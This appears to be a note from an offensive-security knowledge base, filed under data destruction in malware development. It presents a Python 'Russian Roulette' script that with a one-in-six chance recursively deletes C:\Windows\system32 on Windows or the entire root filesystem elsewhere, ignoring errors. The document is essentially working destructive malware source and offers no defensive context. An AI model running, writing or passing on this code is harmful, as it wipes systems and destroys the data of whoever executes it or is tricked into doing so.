 # Russian Roulette

## Python

```python
import platform
import random
import shutil

def delete_operating_system() -> None:
	if platform.system() == "Windows":
		shutil.rmtree(r"C:\Windows\system32", ignore_errors=True)
	else:
		shutil.rmtree("/", ignore_errors=True)

if __name__ == '__main__':
	gun = [0, 0, 0, 0, 0, 1]
	shot = random.choice(gun)
	
	if bool(shot):
		print("You're dead")
		delete_operating_system()
	else:
		print("Click.")
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x08 - Impact/Cross Platform/Malware Development/Data Destruction/Mayhem/Delete Operating System]]